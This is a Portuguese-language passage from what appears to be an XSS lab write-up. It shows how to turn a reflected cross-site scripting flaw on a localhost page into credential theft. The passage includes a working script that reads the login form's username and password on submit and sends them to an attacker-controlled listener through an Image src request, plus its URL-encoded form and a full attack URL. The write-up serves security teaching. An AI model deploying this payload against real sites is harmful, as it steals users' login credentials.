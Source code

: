 Um elemento HTML do tipo imagem precisa necessariamente do atributo `src` que indica o **endereço** da imagem a ser carregada, portanto, o *constructor*, `Image()` também precisa, porém, como é um elemento JavaScript, pode ser preenchido com variáveis.

Quando um elemento do tipo `img` existe em um documento, seja diretamente em código HTML ou inserido via JavaScript, seu atributo `src` é invocado automaticamente toda vez que a página é invocada, fazendo uma requisição para o endereço configurado.

#### Exploração

Esta exploração pode seguir, em sua maioria, como na *task 3*, porém ao invés de invocar um `alert()` com os dados obtidos, podemos iniciar um *constructor* do tipo `Image()` e em seu atributo `src` apontar para um endereço controlável pelo atacante, concatenado com as variáveis de usuário e senha obtidos. Ficando da seguinte forma:

```html
<script>

	function InterceptForm() {
		var username = document.forms[0].elements[0].value;
		var password = document.forms[0].elements[1].value;
		new Image().src = "http://0.0.0.0:8080/?user="+username+"&pass="+password;
	}
	
	document.forms[0].onsubmit = InterceptForm;
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0A%0A%09function%20InterceptForm%28%29%20%7B%0A%09%09var%20username%20%3D%20document.forms%5B0%5D.elements%5B0%5D.value%3B%0A%09%09var%20password%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09new%20Image%28%29.src%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%2F%3Fuser%3D%22%2Busername%2B%22%26pass%3D%22%2Bpassword%3B%0A%09%7D%0A%09%0A%09document.forms%5B0%5D.onsubmit%20%3D%20InterceptForm%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/04/?search=%3Cscript%3E%0A%0A%09function%20InterceptForm%28%29%20%7B%0A%09%09var%20username%20%3D%20document.forms%5B0%5D.elements%5B0%5D.value%3B%0A%09%09var%20password%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09new%20Image%28%29.src%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%2F%3Fuser%3D%22%2Busername%2B%22%26pass%3D%22%2Bpassword%3B%0A%09%7D%0A%09%0A%09document.forms%5B0%5D.onsubmit%20%3D%20InterceptForm%3B%0A%3C%2Fscript%3E](http://localhost/04/?search=%3Cscript%3E%0A%0A%09function%20InterceptForm%28%29%20%7B%0A%09%09var%20username%20%3D%20document.forms%5B0%5D.elements%5B0%5D.value%3B%0A%09%09var%20password%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09new%20Image%28%29.src%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%2F%3Fuser%3D%22%2Busername%2B%22%26pass%3D%22%2Bpassword%3B%0A%09%7D%0A%09%0A%09document.forms%5B0%5D.onsubmit%20%3D%20InterceptForm%3B%0A%3C%2Fscript%3E)

Podemos iniciar um *Python server* na porta 8080 configurada para ouvir a requisição feita.

![Servidor Python ouvindo](/img/posts/2023-06-21-beyond-the-alert-13.png)
